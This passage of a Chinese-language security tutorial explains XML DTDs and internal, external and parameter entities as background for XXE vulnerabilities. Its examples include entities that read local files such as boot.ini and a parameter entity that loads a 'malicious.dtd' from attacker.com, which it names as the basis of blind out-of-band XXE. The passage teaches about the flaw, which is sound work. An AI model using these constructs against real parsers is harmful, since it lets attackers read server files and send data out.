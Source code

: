           <body>Don't forget me this weekend!</body>
        </note>
        ```
    2.  **外部 DTD:** 存储在单独的文件中，通过 `SYSTEM` (私有 DTD) 或 `PUBLIC` (公共 DTD) 关键字在 `<!DOCTYPE>` 声明中引用。
        ```xml
        <!-- 引用私有 DTD -->
        <!DOCTYPE rootElement SYSTEM "path/to/mydtd.dtd">
        <!-- 引用公共 DTD -->
        <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
        ```
*   **DTD 参考**: [W3School DTD 教程](http://www.w3school.com.cn/dtd/index.asp)

#### XML 实体 (XML Entities)

实体是 XML 中用于表示**命名常量**或**引入外部内容**的机制，类似于变量或宏。它们在 DTD 中声明。

1.  **内部实体 (Internal Entity):**
    *   **定义:** 在 DTD 内部定义，其值是一个固定的字符串。
    *   **语法:** `<!ENTITY entityName "entityValue">`
    *   **示例:**
        ```dtd
        <!ENTITY company "My Example Corp.">
        <!ENTITY copyright "&#169; 2024 &company;"> <!-- 实体值可以包含其他实体引用 -->
        ```
    *   **用途:** 定义常量、简化重复内容、表示特殊字符。

2.  **外部实体 (External Entity):**
    *   **定义:** 引用存储在 XML 文档**外部**的资源。其值由该外部资源的内容决定。使用 `SYSTEM` 关键字指定资源的 URI (Uniform Resource Identifier)。
    *   **语法:** `<!ENTITY entityName SYSTEM "URI">`
    *   **URI 协议:** 可以是 `file://` (访问本地文件), `http://`, `https://`, `ftp://` (访问网络资源) 等，取决于 XML 解析器的支持。
    *   **示例:**
        ```dtd
        <!ENTITY fileContent SYSTEM "file:///c:/boot.ini">
        <!ENTITY webContent SYSTEM "http://example.com/data.txt">
        <!ENTITY networkShare SYSTEM "file:////fileserver/share/config.xml">
        ```
    *   **XXE 漏洞的核心利用点:** 如果应用程序解析包含外部实体的 XML，并且未禁用外部实体处理，攻击者可以通过控制 `SYSTEM` 后的 URI 来强制服务器访问任意资源。

3.  **参数实体 (Parameter Entity):**
    *   **定义:** 使用 `<!ENTITY % entityName "entityValue">` 或 `<!ENTITY % entityName SYSTEM "URI">` 定义 (注意中间的 `%` 号)。
    *   **引用:** **只能在 DTD 内部**使用 `%entityName;` 引用 (注意前缀 `%`)。
    *   **用途:**
        *   在 DTD 内部定义可重用的 DTD 片段或参数。
        *   **关键:** **加载外部 DTD 文件**。这是实现复杂 XXE 攻击（尤其是 Blind XXE OOB）的核心机制。参数实体可以引用包含其他 DTD 声明（包括更多实体定义）的外部文件。
    *   **示例 (加载外部 DTD):**
        ```dtd
        <!-- 在主 XML 的 DTD 中 -->
        <!ENTITY % externalDTD SYSTEM "http://attacker.com/malicious.dtd">
        %externalDTD; <!-- 在 DTD 内部引用参数实体，会加载并解析 malicious.dtd 的内容 -->
        ```
